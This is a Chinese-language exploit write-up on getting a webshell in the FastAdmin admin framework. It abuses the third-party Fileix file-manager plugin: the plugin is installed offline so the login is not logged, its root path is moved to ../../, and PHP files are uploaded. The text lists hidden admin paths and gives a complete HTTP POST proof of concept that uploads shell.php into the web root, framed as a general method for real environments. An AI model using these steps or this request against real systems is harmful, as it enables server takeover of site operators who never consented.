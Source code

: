 FastAdmin 第三方插件后台getshell
================================

**0x01 前言**



FastAdmin是基于ThinkPHP5和Bootstrap的后台框架，可以利用三方插件GetShell



**0x02 本地测试**



FastAdmin官方源码下载地址：

```
https://www.fastadmin.net/download.html
```



开启phpstudy本地搭建

![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135325926.png)



安装成功，新版源码的后台地址是随机生成的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326062.png)



后台默认会有插件管理功能，但是绝大部分用户会把这个功能阉割掉



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326155.png)



点进去看到有一堆付费和免费的插件



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326173.png)



翻到了目前已有的三个官方发布的在线文件管理器插件，一个是官方付费版，一个是三方付费版



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326004.png)

![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326014.png)



但是由于舍不得花十块钱买插件，所有只能用三方免费版插件，直接点击安装会需要登录账号，登录信息会记录到日志，不便于操作，所以去官方下载离线安装包



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135325948.png)



Fileix文件管理器离线安装包官方下载地址：

- 

```
https://www.fastadmin.net/store/fileix.html
```



点击离线安装，选择上传你下载的ZIP离线安装包



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326013.png)



插件安装完成会自动启用，默认路径配置是这样的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326024.png)



然后打开是这样的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326057.png)



可以修改为 ../../，那么再打开就是这样的



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326061.png)



然后浅显易懂，直接右键上传php文件就能getshell



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326097.png)



上面是本地测试环境，真实环境会出现这样一个问题，就是点击文件管理功能不会显示任何内容



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326174.png)



后来了解一下是因为没有配置前台页面，不太好修改，所以利用下面的方法





**0x03 通用方法**



1.插件管理地址：

- 

```
/admin/addon?ref=addtabs
```



进入后台默认不显示插件管理功能，访问插件管理地址，上传离线安装包



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326080.png)



2.文件管理地址/读取所有文件地址：

- 
- 

```
/admin/fileix?ref=addtabs/admin/fileix/lst
```



真实环境中如果出现不显示功能的情况，必要时可以读取所有文件地址



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326317.png)



3.上传poc：

```
POST /admin/fileix/data?target=%2F HTTP/1.1
Host: localhost
Content-Length: 1050
Origin: http://localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrZmyeAB3SciJDWST
Accept: */*
Referer: http://localhost
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=xxxxxxxx
Connection: close
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="upload"; filename="shell.php"
Content-Type: application/octet-stream
code
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="action"
upload
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="target"
/public/
------WebKitFormBoundaryrZmyeAB3SciJDWST--
```



修改host地址post过去



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326220.png)



利用poc成功上传shell



![img](.resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326186.png)